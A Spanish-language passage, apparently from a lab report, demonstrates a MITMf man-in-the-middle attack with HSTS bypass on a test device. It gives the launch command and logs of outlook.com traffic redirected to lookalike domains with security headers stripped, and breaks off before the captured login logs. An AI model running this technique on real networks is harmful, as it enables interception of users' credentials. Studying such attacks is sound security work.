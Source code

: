 \begin{lstlisting}[style=base]
  $ python mitmf.py -i wlan0 --hsts --dns
\end{lstlisting}

Luego, conectamos nuestro dispositivo de prueba al AP e intentamos acceder a outlook.com y estos fue lo que logueo mitmf:

\begin{lstlisting}[style=base]
  2017-11-25 17:29:20 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.com
  2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'wwww.outlook.com' to 'www.outlook.com' for HSTS bypass
  2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] www.outlook.com
  2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
  2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'weboutlook.live.com' to 'outlook.live.com' for HSTS bypass
  2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.live.com
  2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
  2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
\end{lstlisting}
  
Como se puede ver, mitmf capturo los requests a outlook.live.com y lo termino redirigiendo a weboutlook.live.com el cual mantiene una conexión del 
tipo HTTP pero se muestra como si fuera la página original para el usuario del dispositivo, y todos los requests que hagamos desde este dominio 
dns2proxy los forwardea al dominio original para que la navegación y el comportamiento del sitio parezca real. 

Paso siguiente, nos intentamos loguear al sitio poniendo nuestro email y un password erróneo para mostrar únicamente como capturamos el tráfico. 
A continuación se pueden ver los logs:


